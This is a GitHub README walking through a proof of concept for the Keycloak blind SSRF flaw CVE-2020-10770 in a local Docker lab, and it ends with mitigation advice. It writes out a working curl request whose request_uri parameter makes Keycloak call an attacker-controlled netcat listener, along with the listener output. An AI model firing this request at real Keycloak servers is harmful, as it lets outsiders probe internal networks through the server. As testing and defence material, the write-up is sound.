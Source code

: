 # Keycloak Blind SSRF POC 

This is a step by step walk-through about how to test the Blind SSRF [(CVE-2020-10770)](https://nvd.nist.gov/vuln/detail/CVE-2020-10770) found by Lauritz Holtmann and documented in his [blog post](https://security.lauritz-holtmann.de/post/sso-security-ssrf/).  
He also [briefly explained how to test it](https://twitter.com/_lauritz_/status/1347246269631238145). This is just a more detailed explanation.

All credits go to [Lauritz](https://twitter.com/_lauritz_).

# Setup 

I use Docker on Mac OSX here.  
I needed three shells, one running the Keycloak instance, one for the listener and one for the curl request.

## Defender

You need a running Keycloak instance with a version <= 12.0.1.  
You can start a test instance with the following command. 
```
docker run -p 9990:9990 -p 8080:8080 -e KEYCLOAK_USER=admin -e KEYCLOAK_PASSWORD=admin jboss/keycloak:12.0.1
```

Visit http://localhost:8080/auth/admin/ in a browser and login with the username "admin" and the password "admin".

On the left side switch to the menu "Clients". This will bring you the the Clients overview.  
![Oauth2 client overview](https://github.com/ramshazar/keycloak-blind-ssrf-poc/blob/main/img/client_config.jpg?raw=true)

On the right side click on "Create" to create a new client. This will bring you to the client creation page.  
![Oauth2 client creation](https://github.com/ramshazar/keycloak-blind-ssrf-poc/blob/main/img/client_config_2.jpg?raw=true)

Choose a reasonable "Client ID" for your Oauth2 client. I go with "blueteamoauth2client" here (this is your <Keycloak_Client_ID>). If you use another Client ID, you have to change a query parameter in the attack http request. Click save to finalize the client setup.  
![Oauth2 client creation](https://github.com/ramshazar/keycloak-blind-ssrf-poc/blob/main/img/client_config_3.jpg?raw=true)

You will now see the settings of our new Oauth2 client.  
![Oauth2 client creation](https://github.com/ramshazar/keycloak-blind-ssrf-poc/blob/main/img/client_config_4.jpg?raw=true)

That is all for the defending part.

## Attacker

### Listener

You need a listener that is accepting the request that we want to trigger with our SSRF. So the ip and port must be reachable from the Keyclok server.  
You can not use localhost in that case, because from Keycloaks point of view localhost will be in the container itself.  
To retrieve the ip address in Mac OS you can use
```
for iface in $(ifconfig  | grep ^en | awk -F\: {'print $1'}); do ipconfig getifaddr $iface; done
```

I chose to start the listener on my host system on port 4444.
```
nc -v -l 4444
```

### Attack

In another shell you have to do one request with curl. You have to change that to your requirements.
```
curl "http://<Keycloak_host_or_ip>:<Keycloak_port>/auth/realms/<Keycloak_realm>/protocol/openid-connect/auth?scope=openid&response_type=code&redirect_uri=valid&state=a&nonce=b&client_id=<Keycloak_Client_ID>&request_uri=http://<Netcat_listener_ip>:<Netcat_listener_port>/"
```

The important parts are:
* <Keycloak_host_or_ip> in my case "localhost".
* <Keycloak_port> in my case "8080".
* <Keycloak_realm> the realm used by Keycloak. The default is "master". That is what I use here.
* <Netcat_listener_ip> the ip address of the netcat listener.
* <Netcat_listener_port> the port of the netcat listener.

So the query in my case is
```
curl "http://localhost:8080/auth/realms/master/protocol/openid-connect/auth?scope=openid&response_type=code&redirect_uri=valid&state=a&nonce=b&client_id=blueteamoauth2client&request_uri=http://192.168.178.222:4444/"
```

## Result

In the netcat listener you will see something like this.

```
bash-3.2$ nc -v -l 4444
GET / HTTP/1.1
Host: 192.168.178.222:4444
Connection: Keep-Alive
User-Agent: Apache-HttpClient/4.5.13 (Java/11.0.9.1)
Accept-Encoding: gzip,deflate

bash-3.2$
```

That means that the Keycloak instance did a http call to your listener.

There will also be entries about this in the Keycloak logs.
```
13:37:28,855 WARN  [org.keycloak.services] (default task-16) KC-SERVICES0097: Invalid request: java.net.SocketTimeoutException: Read timed out
	at java.base/java.net.SocketInputStream.socketRead0(Native Method)
	at java.base/java.net.SocketInputStream.socketRead(SocketInputStream.java:115)
(...)
13:37:28,877 WARN  [org.keycloak.events] (default task-16) type=LOGIN_ERROR, realmId=master, clientId=blueteamoauth2client, userId=null, ipAddress=172.17.0.1, error=invalid_request
```

# Mitigation

To mitigate that you could either. 
* Update Keycloak to version >= 12.0.2. 
* Make sure that a reverse proxy in front of Keycloak drops every request that includes the query parameter "request_uri".  

# Acknowledgements

Thanks to [Lauritz](https://twitter.com/_lauritz_) for finding and reporting the SSRF, for writing the blog post and also for the initial hint how to do this.  
Thanks to [Sebastian](https://groups.google.com/g/keycloak-dev/c/az-FYoI6WDg/m/emwMWfagAAAJ) for the idea to block requests with query parameter "request_uri" in the reverse proxy.
